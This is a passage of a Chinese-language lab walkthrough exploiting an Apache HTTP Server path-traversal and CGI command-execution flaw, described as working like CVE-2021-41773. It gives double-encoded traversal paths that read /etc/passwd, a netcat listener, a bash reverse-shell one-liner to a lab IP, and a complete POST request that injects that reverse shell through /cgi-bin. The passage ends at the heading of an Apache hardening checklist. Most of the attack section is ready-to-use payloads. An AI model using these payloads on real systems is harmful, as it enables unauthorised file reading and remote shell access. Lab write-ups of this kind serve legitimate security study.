 ![image-20240712142933545](https://image.201068.xyz/assets/image-20240712142933545.png)

###### 命令执行时操作方法与 CVE-2021-41773 相同

```
/icons/%%32e%%32e/%%32e%%32e/%%32e%%32e/%%32e%%32e/%%32e%%32e/etc/passwd
/icons/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

##### 3、反弹shell

###### 攻击机监听8888端口

```
nc -lvvp 8888
```

###### 靶机反弹shell

```
bash -c 'bash -i >& /dev/tcp/192.168.70.14/8888 0>&1'
```



```
POST /cgi-bin/%2%65%2%65/%2%65%2%65/%2%65%2%65/%2%65%2%65/bin/bash HTTP/1.1
Host: 192.168.70.14:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-None-Match: "2d-432a5e4a73a80"
If-Modified-Since: Mon, 11 Jun 2007 18:53:14 GMT
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

echo;bash -c 'bash -i >& /dev/tcp/192.168.70.14/8888 0>&1'
```

![image-20240712143458709](https://image.201068.xyz/assets/image-20240712143458709.png)

###### 攻击机收到反弹shell

![image-20240712143623567](https://image.201068.xyz/assets/image-20240712143623567.png)

## Apache基线检查

### 一、确保对OS根目录禁用覆盖  
